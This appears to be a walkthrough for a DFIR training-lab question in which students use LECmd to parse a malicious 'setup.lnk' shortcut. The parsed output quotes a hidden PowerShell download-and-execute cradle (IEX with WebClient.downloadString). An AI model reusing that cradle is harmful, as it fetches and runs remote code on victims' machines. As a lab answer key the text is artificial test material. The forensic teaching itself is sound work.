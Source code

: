 ## Question 1

### "Using LECMD.exe, process the file "setup.lnk" located in the "005.lnk" folder. Identify the IP address mentioned in the arguments' value and use it as the answer. The answer format is ***.**.**.*\*\*"

After spawning the target machine, students will establish an RDP session using the credentials `Administrator:Password123`:

Code: shell

```shell
xfreerdp /v:STMIP /u:Administrator /p:Password123 /dynamic-resolution
```

```
┌─[eu-academy-6]─[10.10.14.62]─[htb-ac-8414@htb-lb7utjoi7g]─[~]
└──╼ [★]$ xfreerdp /v:10.129.214.186 /u:Administrator /p:Password123 /dynamic-resolution 

<SNIP>

Certificate details for 10.129.214.186:3389 (RDP-Server):
	Common Name: DFIR
	Subject:     CN = DFIR
	Issuer:      CN = DFIR
	Thumbprint:  bb:13:51:21:ce:22:8f:0b:a3:c1:0a:37:7f:fe:b3:15:a0:91:f0:a5:df:52:f4:e5:b2:10:6e:94:49:c3:e5:19
The above X.509 certificate could not be verified, possibly because you do not have
the CA certificate in your certificate store, or the certificate has expired.
Please look at the OpenSSL documentation on how to add a private CA to the store.
Do you trust the above certificate? (Y/T/N) Y
```

Students will open PowerShell, navigate to `C:\Tools\DFIR-Data\Tools\EZ-Tools\net6`, use `LECmd.exe` to parse the `setup.lnk` file located in the `C:\Tools\DFIR-Data\evidence\005.lnk\` directory. In the output, students will find `IEX` cmdlet using the `downloadString` method of `WebClient`:

Code: powershell

```powershell
cd C:\Tools\DFIR-Data\Tools\EZ-Tools\net6
.\LECmd.exe -f C:\Tools\DFIR-Data\evidence\005.lnk\setup.lnk
```

```
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator> cd C:\Tools\DFIR-Data\Tools\EZ-Tools\net6
PS C:\Tools\DFIR-Data\Tools\EZ-Tools\net6> .\LECmd.exe -f C:\Tools\DFIR-Data\evidence\005.lnk\setup.lnk

LECmd version 1.5.0.0

Author: Eric Zimmerman (saericzimmerman@gmail.com)
https://github.com/EricZimmerman/LECmd

<SNIP>

Working Directory: E:\downloads
Arguments: -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://{hidden}:80/favicon'))"

--- Link information ---
Flags: VolumeIdAndLocalBasePath

```